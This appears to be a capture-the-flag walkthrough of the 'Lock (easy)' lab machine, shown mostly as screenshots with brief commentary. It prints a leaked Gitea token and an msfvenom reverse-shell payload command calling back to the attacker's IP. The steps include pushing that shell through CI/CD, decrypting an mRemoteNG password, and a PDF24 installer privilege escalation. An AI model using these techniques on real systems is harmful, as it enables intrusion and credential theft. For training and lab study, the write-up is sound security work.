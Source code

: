 # Lock (easy)

## port scan

![](lock\(easy\)/walkthrough\_20240409222405175.png)

## web discover

we have git leak

![](lock\(easy\)/walkthrough\_20240409220011696.png)

but return 403

## gitea discover

![](lock\(easy\)/walkthrough\_20240409222458302.png)

![](lock\(easy\)/walkthrough\_20240409222528749.png)

use `git log -p` to dump all diff. We found a token `43ce39bb0bd6bc489284f2905f033ca467a6362f`

![](lock\(easy\)/walkthrough\_20240409222840196.png)

worked !

![](lock\(easy\)/walkthrough\_20240409223316091.png)

## get a shell

we have website.git

![](lock\(easy\)/walkthrough\_20240409223425998.png)

we can use `git clone $token@$target_repo` format to clone repo

![](lock\(easy\)/walkthrough\_20240409223522140.png)

ci/cd is enable which mean we can change this repo and get shell via ci/cd

![](lock\(easy\)/walkthrough\_20240409224452657.png)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.1.167 LPORT=80 -f aspx -o shell.aspx
```

add shell.aspx to project directory

just push our evil code to remote repo

![](lock\(easy\)/walkthrough\_20240409224719558.png)

use curl command ang we get a shell!

```
git add .
git commit -m 'update shell console to dev'
git push -u origin main
```

![](lock\(easy\)/walkthrough\_20240409224833005.png)

### runas Gale.Dekarios

there have some creds

![](lock\(easy\)/walkthrough\_20240409225121860.png)

![](lock\(easy\)/walkthrough\_20240409225316514.png)

there have Gale.Dekarios user encrypt password in config.xml

![](lock\(easy\)/walkthrough\_20240409230829041.png)

so this is something called mRemoteNG

![](lock\(easy\)/walkthrough\_20240409230852799.png)

now we have plaintext password

![](lock\(easy\)/walkthrough\_20240409230248713.png)

we can use this password rdp into target

![](lock\(easy\)/walkthrough\_20240409230005611.png)

## Privilege Escalation

because there have a software called `PDF24`

google!

![](lock\(easy\)/walkthrough\_20240409231454409.png)

![](lock\(easy\)/walkthrough\_20240409231655957.png)

this exploit seems must use installed.msi. so we have to find a msi file called `pdf24-creator-11.14.0-x64.msi`

![](lock\(easy\)/walkthrough\_20240409231849001.png)

got it!

![](lock\(easy\)/walkthrough\_20240409231905319.png)

build tool

![](lock\(easy\)/walkthrough\_20240409232716293.png)

wait sometime

![](lock\(easy\)/walkthrough\_20240409234909290.png)

we have system cmd!

![](lock\(easy\)/walkthrough\_20240409233530701.png)

just follow the post, our target is open web browser

![](lock\(easy\)/walkthrough\_20240409233611214.png)

select legacy console model

![](lock\(easy\)/walkthrough\_20240409233630760.png)

don't select edge. seems edge can't run on this windows version. it doesn't pop up edge

![](lock\(easy\)/walkthrough\_20240409233719407.png)

we launch system firefox web browser

![](lock\(easy\)/walkthrough\_20240409235401600.png)

![](lock\(easy\)/walkthrough\_20240409235445495.png)

firefox open file `Ctrl + O`

![](lock\(easy\)/walkthrough\_20240409235615006.png)

![](lock\(easy\)/walkthrough\_20240409235641885.png)

we get system cmd shell !

![](lock\(easy\)/walkthrough\_20240409235658744.png)
